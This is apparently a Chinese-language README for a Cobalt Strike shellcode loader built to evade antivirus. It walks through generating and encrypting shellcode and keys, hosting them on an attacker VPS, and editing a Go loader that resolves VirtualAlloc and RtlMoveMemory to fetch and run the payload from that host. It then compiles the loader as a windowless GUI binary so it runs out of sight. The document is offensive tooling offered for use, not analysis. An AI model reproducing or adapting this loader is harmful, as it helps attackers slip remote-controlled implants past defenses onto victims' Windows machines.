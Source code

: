 1. CS加载Bypass_make.cna插件，生成shellcode和加密key1、key2：
"Attack" > "BypassShellCode"

2. 将得到的shellcode和key的值分别做加密：
process_shellcode.exe shellcode > code.txt
process_shellcode.exe key1 > k1.txt
process_shellcode.exe key2 > k2.txt

3. 得到的三个结果分别手动保存为文件放在vps上
code.txt
k1.txt
k2.txt

4. 修改shellcode_loader.go中的vps请求地址即可：
```
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
	URI           = "http://vps:80/"
)
```

6. 编译go文件：
go build -ldflags "-H windowsgui" shellcode_loader.go

7. 运行shellcode_loader.exe即可
